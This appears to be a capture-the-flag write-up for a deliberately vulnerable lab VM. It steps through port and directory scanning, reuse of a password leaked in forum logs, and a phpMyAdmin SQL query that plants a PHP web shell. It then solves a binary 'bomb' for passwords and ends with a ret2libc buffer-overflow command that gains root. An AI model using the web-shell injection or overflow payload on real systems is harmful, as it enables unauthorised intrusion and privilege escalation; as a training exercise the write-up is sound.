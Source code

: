When we've set up our .iso file we will see this:

We need to understand what exactly we are going to "hack".
1. Using ifconfig to see the active interfaces, virtual boxes
   `ifconfig`:<br/>
    ![ifconfig](screens/1.jpg)
    
2. Using nmap to see which ports are open for the VM and what exact ip address it located at 
   `nmap 192.168.12.1-255`:<br/>
   ![nmap](screens/nmap.jpg)
      
   We see that port 80 accessible through the browser

3. Put this 192.168.12.128 into the browser address field and you will get a simple page:<br/>
      ![web_page](screens/web_page.jpg)
      
4. Now we can use DIRB - scaner of the web content which can find possibly hidden information of the page using it's library
   `./dirb http://192.168.12.128 wordlist/common.txt -w`
   output gives us a possibility to see the "forum" folder and some other which are not really relevant:<br/>
   ![dirb](screens/dirb.jpg)
   Though http://192.168.12.128/forum not found in browser

   * lets try ssl version of the site
     `./dirb http://192.168.12.128 wordlist/common.txt -w`
     and we get much more info now, but there are few main folders:<br/>
     ![dirb_https](screens/dirb_https.jpg)<br/>
      
     ```https://192.168.12.128/forum```<br/>
     ```https://192.168.12.128/webmail```<br/>
     ```https://192.168.12.128/phpmyadmin```<br/>

5. First checking out the "forum" folder, proceeding in the browser to https://192.168.12.128/forum
   5.1 We see few topics, checking first one with login problem, looks like the log outpit of log in attempts, one line contains some symbols that are looking like a password:<br/>
       
   ![forum_log_pass](screens/forum_log_pass.jpg)
   assuming that it was log in try we can think that it's user password, probably the one who created the topic
   
   5.2 Log in functionality is present on a forum, as well as users tab:<br/>
   ![users](screens/forum_users.jpg)
   
   there are not so much users, so we going to try to login with credentials of them and this password that we have:
       
   the try to login with lmezard and password that we've found was successfull
   Keep in mind that we have access to the "webmail" page and we see the email of the user
       
6. Going to check the webmail page
   6.1 trying if user email that we found and password that we used to login are matching, seems it works
   6.2 inbox contains 2 emails, one is very interesting, but another one contains root DB access, which seems more relevant to us necause we remember that we have "phpmyadmin" page on a site

7. phpmyadmin investigation
   7.1 lets try to login with credentials that we've got
   7.2 using suggestions from this topic http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2 we are going to inject php file that allows us to run a shell commands from browser
   During several attemtps of the injection files into different known folders that exist on the site, we were finally able to make a needed injection into the "temaplates_c" folder
    `SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";`
8. thanks to the tutorial we can now use shell commands of the server from the browser 
   8.1 which gives us the possibility to find credentials to access the server found in password file in LOOKATME folder
   8.2 looks like an ssh or ftp access 
9.     the ssh try
       ftp
       9.1 we can see two files, get them
       9.2 readme contains some hint for us
       9.3 fun is archive, decompressing it
       it contains a lot of .pcap files
       9.4 using cat command for fun file we can see simple c programm that outputs 12 letters and says it's the password, there are also function calls get_me#() from 1 to 12 each returns letter
       9.5 we found out that archive 8 files return the values from the password
       lets sort them according to numbers inside and we will get the order
       APM1E I
       ZPY1Q h
       ECOW1 e
       7DT5Q a
       T7VV0 r
       J5LKW t
       T44J5 p
       BJPCP wnage
       now we see that the password "Iheartpwnage" looks like case sensetive
       9.6 In fun archive we also saw hint about SHA256, lets encode our password to SHA256 "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"
       9.7 and try to ssh on the server with "laurie@192.168.12.128" and password
10. We are successfully ssh with laurie user
    10.1 we see the README file that gives us a hint how to get password for the ssh access with user "thor"
    10.2 disasemple bomb file and we see 6 functions
         Phase_1 pushes value to the stack 0x80497c0, which is "Public speaking is very easy." Also hint says that password has no spaces and case sensetive, modifing string and getting first part of out password: `Publicspeakingisveryeasy.`
         Phase_2 function 'read_six_numbers' and the string '%d %d %d %d %d %d' at the address 0x08049b1b. We assume that first number is 1, the others are multiples by the last number in the sequense so we have to do it 6 times according to the string. 1*1 2*1 2*3 6*4 24*5 120*6 so the next part of our password is: `12624120720`
         Phase_3 contains the string "%d %c %d" before the call of sscanf function, hint has given us that the character passed to the function should be `b`, so it gives us the solution of "1 b 214", next part of the password is "1b214"
         Phase_4 contains the string "%d" before the call of sscanf function, after the call eax must be equal to 0x37 which is 55, so the number passed to the function we get by inversing the assembly code "9"
         Phase_5 contains the tring "giants" at the address 0x804980b. we also see string isrveawhobpnutfg\260\001 at the address 0x804b220, and a programm gives us a hint to exchange the letters from giants to once from that string and we get `opekmq`
         Phase_6 the programm read_six_numbers and a hint gives us number 4, we also see 6 nodes {253} -> {725} -> {301} -> {997} -> {212} -> {432}, 4-th of the is the biggest, lets assume that we need to order them in descending order then our password part will be: `426315` though according to the forum we must swap 3 and 1 in last part to get the access
        The password in the end: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

11. ssh thor@192.168.12.128 
    We see the README and turtle files
    README suggests us to login with user zaz
    the turtle file is a draw map which is python module
    it gives us the word SLASH
12. ssh zaz@192.168.12.128
    trying password SLASH, does not work
    sha256 encryption of SLASH does not work eather
    md5 does work
13. we find a file exploit_me and it has a root rights
    If we open exploit_me into gdb we notice that we can use a buffer overflow attack and overwrite the EIP register due to the use of an unprotected strcpy.
    Playing around with the command line we can make the program crash at 140 bytes.
    ./exploit_me $(python -c "print('A' * 140)")
14. 
$ ./exploit_me $(python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'AAAA' + '\xb7\xf8\xcc\x58'[::-1])")
id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz) 
    gives us root permissions using a well know security risk on strcpy which provides us with the possiblity to user ret2libc atack, very well known attack
    
